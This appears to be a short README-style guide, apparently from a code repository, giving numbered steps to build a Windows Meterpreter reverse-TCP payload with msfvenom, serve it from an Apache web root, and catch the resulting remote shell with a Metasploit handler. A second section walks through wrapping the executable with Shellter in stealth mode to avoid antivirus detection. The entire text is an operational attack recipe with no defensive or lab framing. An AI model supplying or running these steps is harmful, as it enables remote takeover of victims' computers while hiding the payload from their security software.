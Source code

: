 ## Instructions:
  ### On the host machine (linux): // Note: (change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
    2.1. OPTIONAL go to Avoiding AntiVirus
   3.  service apache2 start
   3.  msfconsole
   4.  use exploit/multi/handler
   5.  set PAYLOAD windows/meterpreter/reverse_tcp
   6.  set LHOST 192.168.0.24
   7.  set LPORT 8080
   8.  exploit
   
   
   ### Avoiding Anti Virus
    1. sudo apt-get install shellter [ You might be required to install wine32 first (dpkg --add-architecture i386 && apt-get update && apt-get install wine32) ]
    2. shellter
    3. A (to select AUTO)
    4. /var/www/htmlEnter path to your executable
    5. Y (to enter stealth mode)
    6. Enter LHOST and LPORT
